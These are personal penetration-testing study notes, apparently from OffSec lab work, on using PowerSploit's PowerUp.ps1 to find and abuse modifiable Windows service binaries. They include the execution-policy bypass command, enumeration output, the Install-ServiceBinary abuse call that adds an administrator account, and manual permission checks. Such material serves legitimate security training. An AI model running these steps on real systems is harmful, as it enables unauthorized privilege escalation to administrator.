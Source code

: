 ```yaml
---
aliases:
  - PowerUp.ps1
---
```

# PowerUp.ps1
> [!Note]
> Assume we're using the same scenario as in [hijacking-service-binaries](hijacking-service-binaries.md) and the other notes in this section.

[**PowerUp.ps1**](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) is a tool which we can use to detect [Windows](../../../computers/windows/README.md) privesc vectors. To use it, we just need to copy it to our *attacking machine*, then use a python HTTP server and `iwr` to infiltrate it onto the victim Windows machine.
## Use
After getting the script onto our target box, we need to start [PowerShell](../../../coding/languages/powershell.md) with the `ExecutionPolicy Bypass` to allow our current `dave` user to execute the script:
```powershell
PS C:\Users\dave> powershell -ep bypass
...
PS C:\Users\dave>  . .\PowerUp.ps1
```
### `Get-ModifiableServiceFile`
After importing the script, we can use `Get-ModifiableServiceFile` which is a function that displays [README](README.md) the current user *is allowed to modify*:
```powershell
PS C:\Users\dave> Get-ModifiableServiceFile

...

ServiceName                     : mysql
Path                            : C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql
ModifiableFile                  : C:\xampp\mysql\bin\mysqld.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : BUILTIN\Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'mysql'
CanRestart                      : False
```
PowerUp identified `mysqld.exe` in the `\xampp` directory as vulnerable (along with some others). It also tells us that we *don't have permission to restart the service*.
### `AbuseFunction`
Listed in the above output is the function `AbuseFunction`. We can use this to replace the binary (if our current user has permission to). This is a built in function, and it use it, we just have to call the command listed to the right of it.

Calling this function results in its default action: create a new user named `john` with the password `Password123!` and add him to the local `Administrators` group. To call it, our current user account also needs permissions to reboot the machine. Unfortunately, our current user `dave` does not have those permissions, so calling it would result in:
```powershell
PS C:\Users\dave> Install-ServiceBinary -Name 'mysql'

Service binary 'C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini mysql' for service mysql not
modifiable by the current user.
At C:\Users\dave\PowerUp.ps1:2178 char:13
+             throw "Service binary '$($ServiceDetails.PathName)' for s ...
+             ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OperationStopped: (Service binary ...e current user.:String) [], RuntimeException
    + FullyQualifiedErrorId : Service binary 'C:\xampp\mysql\bin\mysqld.exe --defaults-file=c:\xampp\mysql\bin\my.ini
   mysql' for service mysql not modifiable by the current user.
```
Notice that the above error isn't regarding whether `dave` has reboot permissions. Instead, it describes the the path for the `mysql` service is `not modifiable by the current user`. This is a bug you can track down manually in the [PowerUp.ps1 code](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). Basically, when you give a path to a PS function defined in the code as `Get-ModifiablePath`, it breaks. 

Since this function is called when you run the `AbuseFunction` (`Install-ServiceBinary`), it triggers this error, even though we already know the current user `dave` *can modify the binary*. This is all to say that you, again, should never blindly trust an automated tool. Offsec gives the following manual test steps to establish this:
```powershell
PS C:\Users\dave> $ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe' | Get-ModifiablePath -Literal

PS C:\Users\dave> $ModifiableFiles

ModifiablePath                IdentityReference Permissions
--------------                ----------------- -----------
C:\xampp\mysql\bin\mysqld.exe BUILTIN\Users     {WriteOwner, Delete, WriteAttributes, Synchronize...}

PS C:\Users\dave> $ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe argument' | Get-ModifiablePath -Literal

PS C:\Users\dave> $ModifiableFiles

ModifiablePath     IdentityReference                Permissions
--------------     -----------------                -----------
C:\xampp\mysql\bin NT AUTHORITY\Authenticated Users {Delete, WriteAttributes, Synchronize, ReadControl...}
C:\xampp\mysql\bin NT AUTHORITY\Authenticated Users {Delete, GenericWrite, GenericExecute, GenericRead}

PS C:\Users\dave> $ModifiableFiles = echo 'C:\xampp\mysql\bin\mysqld.exe argument -conf=C:\test\path' | Get-ModifiablePath -Literal 

PS C:\Users\dave> $ModifiableFiles
```

> [!Resources]
> - [**PowerUp.ps1**](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) 
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.